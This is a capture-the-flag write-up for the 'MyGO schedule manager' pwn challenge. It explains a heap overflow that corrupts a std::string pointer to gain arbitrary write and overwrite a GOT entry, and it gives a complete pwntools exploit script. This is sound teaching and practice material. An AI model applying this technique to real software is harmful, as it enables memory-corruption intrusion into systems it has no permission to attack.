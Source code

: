 # MyGO schedule manager α
> Author: 堇姬Naup

## analyze
`std::cin` does not limit the input size, and the input is placed into a buffer which have 0x16 size.
So this part have a overflow, and it is on heap chunk.

Let me look this chunk.


We know std::string struct like this.
| offset | description |
|--------|-------------|
| 0x0    | data's pointer |
| 0x8    | vector size |
| 0x10   | vector capacity |
| 0x18   | unused padding or alignment space |

So if we can change data's pointer to anywhere, we will get arbitary write or read.
Use it to write got.

Overwrite got pointer and let it jump to backdoor function.

## script
```py
from pwn import *
from libs.NAUP_pwn_lib import *
import time
from libs.NAUP_filestructure_lib import *
from libs.NAUP_fmt_lib import *

### This is a CTF pwn templates make by Naup

def s(payload): return r.send(payload)
def sl(payload): return r.sendline(payload)
def sla(after, payload): return r.sendlineafter(after, payload)
def sa(after, payload): return r.sendafter(after, payload)
def rc(num): return r.recv(num)
def rcl(): return r.recvline()
def rcls(num): return r.recvlines(num)
def rcu(payload): return r.recvuntil(payload)
def ita(): return r.interactive()
def cl(): return r.close()
def tsl(): return time.sleep(0.2)

x64_env()

REMOTE_LOCAL=input("local?(y/n):")

if REMOTE_LOCAL=="y":
    r=process('./chal')
    debug_init()
    
else:                                           
    REMOTE_INFO=split_nc("nc naup.com 2000")

    REMOTE_IP=REMOTE_INFO[0]
    REMOTE_PORT=int(REMOTE_INFO[1])

    r=remote(REMOTE_IP,REMOTE_PORT)

### attach
if input('attach?(y/n)') == 'y':
    p(r)

### heap IO

def login():
    sla(b"Username > ", b"MyGO!!!!!")
    sla(b"Password > ", b"TomorinIsCute")

def create(title, ctx):
    sla(b"< MyGO @ ScheduleManager $ > ", b"1")
    sla(b"MyGO @ sched title > \n", title)
    sla(b"MyGO @ sched content > \n", ctx)

def edit_title(title):
    sla(b"< MyGO @ ScheduleManager $ > ", b"2")
    sla(b"MyGO @ sched title > \n", title)

def edit_content(ctx):
    sla(b"< MyGO @ ScheduleManager $ > ", b"3")
    sla(b"MyGO @ sched content > \n", ctx)

def show():
    sla(b"< MyGO @ ScheduleManager $ > ", b"4")


### exploit

login()
got = 0x404058
backdoor = 0x40142c

create(b"MyGO", b'MyGO' * 8)
edit_title(b"MyGO" * 6 + p64(got))
edit_content(p64(backdoor))

show()

### interactive
ita()
```
